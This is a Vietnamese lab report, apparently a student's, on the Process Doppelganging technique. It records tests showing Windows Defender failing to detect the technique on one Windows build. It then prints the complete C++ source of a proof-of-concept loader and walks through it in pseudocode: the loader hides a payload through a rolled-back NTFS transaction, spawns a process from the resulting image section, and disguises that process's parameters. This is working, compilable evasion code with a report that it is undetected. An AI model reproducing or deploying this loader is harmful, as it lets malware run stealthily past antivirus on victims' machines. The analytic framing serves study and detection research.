
*Hình 11. Cùng thư mục đó, Defender xử lý file thử EICAR.*
-> `Test-Path` trả `False` vì file đã bị xoá, `Get-MpThreat` gán `Virus:DOS/EICAR_Test_File` mức `5`, và nhật ký sinh cặp `1116` lúc `1:04:41 AM` rồi `1117` lúc `1:04:51 AM`

Chuỗi EICAR phải ghép từ hai mảnh, viết liền thì chính file script bị cách ly trước khi kịp chạy.

#### D3.5. Đối chiếu giờ chạy PoC với giờ Defender ra tay
Mỗi lần chạy PoC sinh một file `TH*.tmp`, em lấy dấu thời gian của chúng làm mốc rồi đặt cạnh danh sách sự kiện phát hiện. Cửa sổ đối chiếu lấy 30 phút gần nhất nên chỉ gồm các lần chạy sau khi đã cập nhật signature, cả lần của D2 lúc bảo vệ còn tắt lẫn lần của D3.2 lúc đã bật lại.

**[Victim Win 10 - PowerShell admin]**
```powershell
$moc = (Get-Date).AddMinutes(-30)
Get-ChildItem $env:TEMP -Filter "TH*.tmp" | Where-Object { $_.LastWriteTime -ge $moc } | Sort-Object LastWriteTime | Select-Object Name,Length,LastWriteTime
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Windows Defender/Operational'; Id=1116,1117; StartTime=$moc} | Sort-Object TimeCreated | Select-Object TimeCreated,Id
Get-MpThreatDetection | Where-Object { $_.InitialDetectionTime -ge $moc } | Select-Object InitialDetectionTime,Resources
```

*Hình 12. Giờ các lần chạy PoC đặt cạnh giờ mọi sự kiện phát hiện của Defender.*
-> bảy lần chạy PoC trong cửa sổ đối chiếu, từ `1:02:10 AM` tới `1:24:44 AM`, không lần nào ứng với một sự kiện. Defender chỉ sinh sự kiện lúc `1:04:41 AM` và `1:04:51 AM`, cột `Resources` cho thấy chúng thuộc về `C:\pd\eicar_test.txt`

#### Nhận xét
Cùng một Defender, cùng thư mục `C:\pd`, cùng một phiên làm việc. Nó xoá file thử EICAR trong khoảng mười giây và ghi hai sự kiện vào nhật ký. Các lần chạy Process Doppelganging sau khi cập nhật không sinh sự kiện nào, quét thẳng vào hai file cũng trả `found no threats`.

- **Không chặn**: `NtCreateProcessEx` thành công cả khi ba lớp bảo vệ đang bật, PoC vẫn in `[+] Done!`
- **Không nhận dạng**: hai file trên đĩa không khớp mẫu nào của bộ signature `1.463.443.0`
- **Bật hay tắt AV không đổi kết quả**: D2 và D3 ra cùng một thứ, chỉ khác số PID


=> trên build 10240 với engine `1.1.26100.4` và signature `1.463.443.0`, Defender không chặn cũng không nhận dạng được kỹ thuật này. Em chỉ đo trên một bản Windows nên chưa kết luận cho bản khác

### D4. Phân tích mã và viết lại dưới dạng mã giả
Ta phân kĩ `main.cpp` của repo 
```cpp 
#include <Windows.h>
#include <KtmW32.h>

#include <iostream>
#include <stdio.h>

#include "ntddk.h"
#include "ntdll_undoc.h"
#include "util.h"

#include "pe_hdrs_helper.h"
#include "process_env.h"

#pragma comment(lib, "KtmW32.lib")
#pragma comment(lib, "Ntdll.lib")

#define PAGE_SIZE 0x1000

HANDLE make_transacted_section(BYTE* payloadBuf, DWORD payloadSize)
{
    DWORD options, isolationLvl, isolationFlags, timeout;
    options = isolationLvl = isolationFlags = timeout = 0;

    HANDLE hTransaction = CreateTransaction(nullptr, nullptr, options, isolationLvl, isolationFlags, timeout, nullptr);
    if (hTransaction == INVALID_HANDLE_VALUE) {
        std::cerr << "Failed to create transaction!" << std::endl;
        return INVALID_HANDLE_VALUE;
    }
    wchar_t dummy_name[MAX_PATH] = { 0 };
    wchar_t temp_path[MAX_PATH] = { 0 };
    DWORD size = GetTempPathW(MAX_PATH, temp_path);

    GetTempFileNameW(temp_path, L"TH", 0, dummy_name);
    HANDLE hTransactedWriter = CreateFileTransactedW(dummy_name,
        GENERIC_WRITE,
        FILE_SHARE_READ,
        NULL,
        CREATE_ALWAYS,
        FILE_ATTRIBUTE_NORMAL,
        NULL,
        hTransaction,
        NULL,
        NULL
    );
    if (hTransactedWriter == INVALID_HANDLE_VALUE) {
        std::cerr << "Failed to create transacted file: " << GetLastError() << std::endl;
        return INVALID_HANDLE_VALUE;
    }

    DWORD writtenLen = 0;
    if (!WriteFile(hTransactedWriter, payloadBuf, payloadSize, &writtenLen, NULL)) {
        std::cerr << "Failed writing payload! Error: " << GetLastError() << std::endl;
        return INVALID_HANDLE_VALUE;
    }
    CloseHandle(hTransactedWriter);
    hTransactedWriter = nullptr;

    HANDLE hTransactedReader = CreateFileTransactedW(dummy_name,
        GENERIC_READ,
        FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL,
        hTransaction,
        NULL,
        NULL
    );
    if (hTransactedReader == INVALID_HANDLE_VALUE) {
        std::cerr << "Failed to open transacted file: " << GetLastError() << std::endl;
        return INVALID_HANDLE_VALUE;
    }

    HANDLE hSection = nullptr;
    NTSTATUS status = NtCreateSection(&hSection,
        SECTION_MAP_EXECUTE,
        NULL,
        0,
        PAGE_READONLY,
        SEC_IMAGE,
        hTransactedReader
    );
    if (status != STATUS_SUCCESS) {
        std::cerr << "NtCreateSection failed: " << std::hex << status << std::endl;
        return INVALID_HANDLE_VALUE;
    }
    CloseHandle(hTransactedReader);
    hTransactedReader = nullptr;

    if (RollbackTransaction(hTransaction) == FALSE) {
        std::cerr << "RollbackTransaction failed: " << std::hex << GetLastError() << std::endl;
        return INVALID_HANDLE_VALUE;
    }
    CloseHandle(hTransaction);
    hTransaction = nullptr;

    return hSection;
}


bool process_doppel(wchar_t* targetPath, BYTE* payloadBuf, DWORD payloadSize)
{
    HANDLE hSection = make_transacted_section(payloadBuf, payloadSize);
    if (!hSection || hSection == INVALID_HANDLE_VALUE) {
        return false;
    }
    HANDLE hProcess = nullptr;
    NTSTATUS status = NtCreateProcessEx(
        &hProcess, //ProcessHandle
        PROCESS_ALL_ACCESS, //DesiredAccess
        NULL, //ObjectAttributes
        NtCurrentProcess(), //ParentProcess
        PS_INHERIT_HANDLES, //Flags
        hSection, //sectionHandle
        NULL, //DebugPort
        NULL, //ExceptionPort
        FALSE //InJob
    );
    if (status != STATUS_SUCCESS) {
        std::cerr << "NtCreateProcessEx failed! Status: " << std::hex << status << std::endl;
        if (status == STATUS_IMAGE_MACHINE_TYPE_MISMATCH) {
            std::cerr << "[!] The payload has mismatching bitness!" << std::endl;
        }
        return false;
    }

    PROCESS_BASIC_INFORMATION pi = { 0 };

    DWORD ReturnLength = 0;
    status = NtQueryInformationProcess(
        hProcess,
        ProcessBasicInformation,
        &pi,
        sizeof(PROCESS_BASIC_INFORMATION),
        &ReturnLength
    );
    if (status != STATUS_SUCCESS) {
        std::cerr << "NtQueryInformationProcess failed: " << std::hex << status << std::endl;
        return false;
    }
    PEB peb_copy = { 0 };
    if (!buffer_remote_peb(hProcess, pi, peb_copy)) {
        return false;
    }
    ULONGLONG imageBase = (ULONGLONG) peb_copy.ImageBaseAddress;
#ifdef _DEBUG
    std::cout << "ImageBase address: " << (std::hex) << (ULONGLONG)imageBase << std::endl;
#endif
    DWORD payload_ep = get_entry_point_rva(payloadBuf);
    ULONGLONG procEntry =  payload_ep + imageBase;

    if (!setup_process_parameters(hProcess, pi, targetPath)) {
        std::cerr << "Parameters setup failed" << std::endl;
        return false;
    }
    std::cout << "[+] Process created! Pid = " << std::dec << GetProcessId(hProcess) << "\n";
#ifdef _DEBUG
    std::cerr << "EntryPoint at: " << (std::hex) << (ULONGLONG)procEntry << std::endl;
#endif
    HANDLE hThread = NULL;
    status = NtCreateThreadEx(&hThread,
        THREAD_ALL_ACCESS,
        NULL,
        hProcess,
        (LPTHREAD_START_ROUTINE) procEntry,
        NULL,
        FALSE,
        0,
        0,
        0,
        NULL
    );

    if (status != STATUS_SUCCESS) {
        std::cerr << "NtCreateThreadEx failed: " << std::hex << status << std::endl;
        return false;
    }

    return true;
}

int wmain(int argc, wchar_t *argv[])
{
#ifdef _WIN64
    const bool is32bit = false;
#else
    const bool is32bit = true;
#endif
    if (argc < 2) {
        std::cout << "Process Doppelganging (";
        if (is32bit) std::cout << "32bit";
        else std::cout << "64bit";
        std::cout << ")\n";
        std::cout << "params: <payload path> [*target path]\n" << std::endl;
        std::cout << "* - optional" << std::endl;
        system("pause");
        return 0;
    }
    if (init_ntdll_func() == false) {
        return -1;
    }
    wchar_t defaultTarget[MAX_PATH] = { 0 };
    get_calc_path(defaultTarget, MAX_PATH, is32bit);
    wchar_t *targetPath = defaultTarget;
    if (argc >= 3) {
        targetPath = argv[2];
    }
    wchar_t *payloadPath = argv[1];
    size_t payloadSize = 0;

    BYTE* payloadBuf = buffer_payload(payloadPath, payloadSize);
    if (payloadBuf == NULL) {
        std::cerr << "Cannot read payload!" << std::endl;
        return -1;
    }

    bool is_ok = process_doppel(targetPath, payloadBuf, (DWORD) payloadSize);

    free_buffer(payloadBuf, payloadSize);
    if (is_ok) {
        std::cerr << "[+] Done!" << std::endl;
    } else {
        std::cerr << "[-] Failed!" << std::endl;
#ifdef _DEBUG
        system("pause");
#endif
        return -1;
    }
#ifdef _DEBUG
    system("pause");
#endif
    return 0;
}
``` 

Ta thấy được flow của code như sau:
- `wmain()` gọi `process_doppel()`, `process_doppel()` là hàm xử lý chính thực hiện kỹ thuật `Process Doppelganging`
- `process_doppel()` gọi `make_transacted_section()` để tạo section độc hại, sau đó dùng section để tạo process độc hại tương ứng và chạy process đó 

Ta phân tích kĩ hơn `make_transacted_section()` và `process_doppel()`

#### a. `make_transacted_section(BYTE* payloadBuf, DWORD payloadSize)`
Hàm này nhận input là payload và size của payload, output trả về là section độc hại chứa payload đó 

Đầu tiên hàm tạo transaction theo cơ chế TxF sử dụng API `CreateTransaction`
```cpp
HANDLE hTransaction = CreateTransaction(nullptr, nullptr, options, isolationLvl, isolationFlags, timeout, nullptr);
if (hTransaction == INVALID_HANDLE_VALUE) {
    std::cerr << "Failed to create transaction!" << std::endl;
    return INVALID_HANDLE_VALUE;
}
```

Tiếp theo, chương trình tạo một file tạm trong `temp_path`(`"C:\Users\PC\AppData\Local\Temp\"`) và lưu toàn bộ đường dẫn của file mới tạo vào `dummy_name` 
```cpp
wchar_t dummy_name[MAX_PATH] = { 0 };
wchar_t temp_path[MAX_PATH] = { 0 };
DWORD size = GetTempPathW(MAX_PATH, temp_path);

GetTempFileNameW(temp_path, L"TH", 0, dummy_name);
```
- `DWORD size = GetTempPathW(MAX_PATH, temp_path);`: lưu đường dẫn thư mục tmp của windows vào `temp_path`, `temp_path` = `L"C:\Users\PC\AppData\Local\Temp\"`
- `GetTempFileNameW(temp_path, L"TH", 0, dummy_name);`: với `uUnique`(tham số thứ 3) là 0 thì hàm sẽ tạo một file có tên random với prefix là `TH` trong `temp_path`, lưu toàn bộ đường dẫn của file mới tạo vào `dummy_name`

Tiếp theo, chương trình mở file `dummy_name` trong transaction đã tạo (biến `hTransaction`) bằng API `CreateFileTransactedW`(truyền tham số `dummy_name` và `hTransaction`)
```cpp
HANDLE hTransactedWriter = CreateFileTransactedW(dummy_name,
    GENERIC_WRITE,
    FILE_SHARE_READ,
    NULL,
    CREATE_ALWAYS,
    FILE_ATTRIBUTE_NORMAL,
    NULL,
    hTransaction,
    NULL,
    NULL
);
```

Sau đó chương trình ghi(trong transaction) nội dung payload vào trong `hTransactedWriter`(tức file `dummy_name`)
```cpp
if (!WriteFile(hTransactedWriter, payloadBuf, payloadSize, &writtenLen, NULL)) {
    std::cerr << "Failed writing payload! Error: " << GetLastError() << std::endl;
    return INVALID_HANDLE_VALUE;
}

CloseHandle(hTransactedWriter);
hTransactedWriter = nullptr;
```

Sau đó chương trình sử dụg API `hTransactedReader` để mở file `dummy_name` trong transaction đã tạo, từ đó đọc section của `dummy_name`(lúc này trong transaction đã được ghi đè thành file độc hại) vào trong biến `hSection`(sử dụng API `NtCreateSection`)(khi đó thì `hSection` là section chứa payload độc hại)
```cpp
HANDLE hTransactedReader = CreateFileTransactedW(dummy_name,
    GENERIC_READ,
    FILE_SHARE_WRITE,
    NULL,
    OPEN_EXISTING,
    FILE_ATTRIBUTE_NORMAL,
    NULL,
    hTransaction,
    NULL,
    NULL
);

NTSTATUS status = NtCreateSection(&hSection,
    SECTION_MAP_EXECUTE,
    NULL,
    0,
    PAGE_READONLY,
    SEC_IMAGE,
    hTransactedReader
);
```

Cuối cùng thì chương trình thực hiện Roll back Transaction(khi đó thì file `dummy_name` đang bị ghi đè thành độc hại trong transaction sẽ không thay đổi ở ngoài disk) và trả về `hSection`(tức section chứa payload độc hại)
```cpp 
if (RollbackTransaction(hTransaction) == FALSE) {
    std::cerr << "RollbackTransaction failed: " << std::hex << GetLastError() << std::endl;
    return INVALID_HANDLE_VALUE;
}
CloseHandle(hTransaction);
hTransaction = nullptr;

return hSection;
```
#### b. `process_doppel(wchar_t* targetPath, BYTE* payloadBuf, DWORD payloadSize)`
Hàm này nhận input là `targetPath`(tên executable sử dụng cho process độc hại), payload và size của payload, hàm này thực hiện tạo process độc hại chứa payload, tạo thread để chạy process độc hại đó 

Đầu tiên, chương trình gọi `make_transacted_section()` với 2 tham số là payload và size của payload, từ đó tạo section độc hại chứa payload lưu dưới biến `hSection`

Sau đó sử dụng API `NtCreateProcessEx` truyền tham số `hSection` để tạo process độc hại chứa section độc hại vừa tạo, lưu process đó vào biến `hProcess` 
```cpp
HANDLE hSection = make_transacted_section(payloadBuf, payloadSize);
if (!hSection || hSection == INVALID_HANDLE_VALUE) {
    return false;
}
HANDLE hProcess = nullptr;
NTSTATUS status = NtCreateProcessEx(
    &hProcess, //ProcessHandle
    PROCESS_ALL_ACCESS, //DesiredAccess
    NULL, //ObjectAttributes
    NtCurrentProcess(), //ParentProcess
    PS_INHERIT_HANDLES, //Flags
    hSection, //sectionHandle
    NULL, //DebugPort
    NULL, //ExceptionPort
    FALSE //InJob
);
```

Tiếp theo, chươnng trình tính VA của entrypoint trong payload như sau: 
```cpp
PEB peb_copy = { 0 };
if (!buffer_remote_peb(hProcess, pi, peb_copy)) {
    return false;
}
ULONGLONG imageBase = (ULONGLONG) peb_copy.ImageBaseAddress;

DWORD payload_ep = get_entry_point_rva(payloadBuf);
ULONGLONG procEntry =  payload_ep + imageBase;
```
- copy PEB của `hProcess`(process chứa payload) sang biến `peb_copy`
- `procEntry` = `get_entry_point_rva(payloadBuf)` + `peb_copy.ImageBaseAddress`, biến này lưu VA của entrypoint trong payload

Sau đó, chương trình sử dụng `targetPath` làm tên executable file metadata trong process độc hại `hProcess` này 
```cpp
if (!setup_process_parameters(hProcess, pi, targetPath)) {
    std::cerr << "Parameters setup failed" << std::endl;
    return false;
}
```

Cuối cùng, chương trình tạo và run thread với tham số là `hProcess`(process độc hại đã tạo) và entry point là `procEntry`
```cpp
status = NtCreateThreadEx(&hThread,
    THREAD_ALL_ACCESS,
    NULL,
    hProcess,
    (LPTHREAD_START_ROUTINE) procEntry,
    NULL,
    FALSE,
    0,
    0,
    0,
    NULL
);
```

Như vậy ta đã hiểu được flow của kỹ thuật Process Doppelganging mà chương trình thực hiện như sau: 
- Tạo transaction 
- Ghi đè một file bất kì thành payload trong transaction đó 
- Tạo section sử dụng input là file đã ghi đè thành payload, từ đó section tạo ra chứa payload 
- Rollback lại transaction, từ đó file bị ghi đè đó không được sửa đổi ở ngoài disk 
- Tạo process tương ứng sử dụng section độc hại đã tạo 
- Sửa giá trị executable file metadate của process đó thành một file bình thường 
- Tạo thread chạy process đã tạo 

Theo flow đó, ta có được mã giả thực hiện Process Doppelganging như sau: 
```cpp

// Đọc payload từ disk vào RAM
payloadBuf  = ReadFile(payloadPath)
payloadSize = GetFileSize(payloadPath)


// BƯỚC 1 — TRANSACT: Tạo transaction và ghi payload vào file tạm trong transaction

hTransaction = CreateTransaction()

// Tạo file tạm 
temp_path  = GetTempPathW()
dummy_name = GetTempFileNameW(temp_path, prefix="TH")

// Mở file tạm trong transaction, ghi payload vào
hTransactedWriter = CreateFileTransactedW(dummy_name, WRITE, hTransaction)
WriteFile(hTransactedWriter, payloadBuf, payloadSize)
CloseHandle(hTransactedWriter)


// BƯỚC 2 — LOAD: Tạo section từ file tạm đang chứa payload trong transaction

hTransactedReader = CreateFileTransactedW(dummy_name, READ, hTransaction)

hSection = NtCreateSection(
    type  = SEC_IMAGE,        
    hFile = hTransactedReader // file độc hại trong transaction
)
CloseHandle(hTransactedReader)


// BƯỚC 3 — ROLLBACK: Hủy transaction → disk sạch, section trong RAM vẫn còn

RollbackTransaction(hTransaction)


// BƯỚC 4 — ANIMATE: Tạo process từ section, thiết lập và chạy


// Tạo process từ section độc hại 
hProcess = NtCreateProcessEx(
    parentProcess = NtCurrentProcess(),
    hSection      = hSection
)

// Tính entry point tuyệt đối của payload
pi          = NtQueryInformationProcess(hProcess, ProcessBasicInformation)
peb_copy    = ReadProcessMemory(hProcess, pi.PebBaseAddress)
imageBase   = peb_copy.ImageBaseAddress        // Windows Loader đã map ở đây
payload_ep  = get_entry_point_rva(payloadBuf)  // RVA từ PE header của payload
procEntry   = imageBase + payload_ep           // VA tuyệt đối để thực thi

// Ngụy trang process (đổi executable file metadate thành targetPath)
params = RtlCreateProcessParametersEx(targetPath)
VirtualAllocEx(hProcess, params)
WriteProcessMemory(hProcess, peb_copy.ProcessParameters, params)

// Tạo thread -> payload bắt đầu thực thi
hThread = NtCreateThreadEx(
    hProcess  = hProcess,
    startAddr = procEntry   
)

return true
```